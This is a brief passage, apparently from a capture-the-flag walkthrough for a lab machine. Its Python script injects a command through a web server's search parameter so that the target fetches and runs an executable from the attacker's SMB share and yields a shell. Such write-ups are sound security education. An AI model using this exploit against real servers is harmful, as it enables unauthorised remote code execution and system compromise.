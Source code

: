![user1](./optimum/user1.png)

Now use this to get a full shell on the target with the following Python:

```python
# run script with python3
import urllib.parse
import urllib.request

PAYLOAD = "c:\\windows\\system32\\cmd.exe /c \\\\10.10.14.25\\BUBBA\\bubba.exe"
URL = 'http://10.10.10.8/?search=%00{.exec|' + urllib.parse.quote(PAYLOAD) + '.}'
print(URL)
urllib.request.urlopen(URL)
```

This returns a shell with `user.txt`:
